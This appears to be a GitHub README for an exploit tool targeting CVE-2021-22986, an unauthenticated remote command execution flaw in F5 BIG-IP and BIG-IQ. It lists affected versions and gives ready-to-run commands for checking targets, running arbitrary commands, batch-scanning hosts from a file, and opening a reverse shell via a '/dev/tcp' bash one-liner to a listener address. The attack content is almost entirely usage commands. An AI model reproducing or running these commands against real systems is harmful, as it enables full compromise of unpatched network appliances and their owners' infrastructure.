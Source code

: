 ## Vuln Impact

This vulnerability allows for unauthenticated attackers with network access to the iControl REST interface, through the BIG-IP management interface and self IP addresses, to execute arbitrary system commands, create or delete files, and disable services. This vulnerability can only be exploited through the control plane and cannot be exploited through the data plane. Exploitation can lead to complete system compromise. The BIG-IP system in Appliance mode is also vulnerable.

## Vuln Product

- F5 BIG-IQ 6.0.0-6.1.0
- F5 BIG-IQ 7.0.0-7.0.0.1
- F5 BIG-IQ 7.1.0-7.1.0.2
- F5 BIG-IP 12.1.0-12.1.5.2
- F5 BIG-IP 13.1.0-13.1.3.5
- F5 BIG-IP 14.1.0-14.1.3.1
- F5 BIG-IP 15.1.0-15.1.2
- F5 BIG-IP 16.0.0-16.0.1

## Vunl Check

**Basic usage**

```
python3 CVE_2021_22986.py
```

![use](img/use.png)

**Vuln check**

```
python3 CVE_2021_22986.py -v true -u https://192.168.174.164
```

![verify](img/verify.png)

**command execute:**

```
python3 CVE_2021_22986.py -a true -u https://192.168.174.164 -c id
```

![command_exec](img/exec.png)

```
python3 CVE_2021_22986.py -a true -u https://192.168.174.164 -c whoami
```

![exec_2](img/exec_2.png)

**batch scan**

```
python3 CVE_2021_22986.py -s true -f check.txt
```

![batch_scan](img/vul_scan.png)

**Reserve Shell**

```
python3 CVE_2021_22986.py -r true -u https://192.168.174.164 -c "bash -i >&/dev/tcp/192.168.174.129/8888 0>&1"
```

![reverse_shell](img/reverse_shell.png)

![reverse_shell_ok](img/reverse_shell_ok.png)


## New POC
```
python3 newpoc.py https://192.168.174.164
```
![newpoc](img/new_poc.png)

## Reference

https://support.f5.com/csp/article/K03009991

https://github.com/safesword/F5_RCE

https://attackerkb.com/topics/J6pWeg5saG/k03009991-icontrol-rest-unauthenticated-remote-command-execution-vulnerability-cve-2021-22986

https://github.com/Udyz/CVE-2021-22986-SSRF2RCE
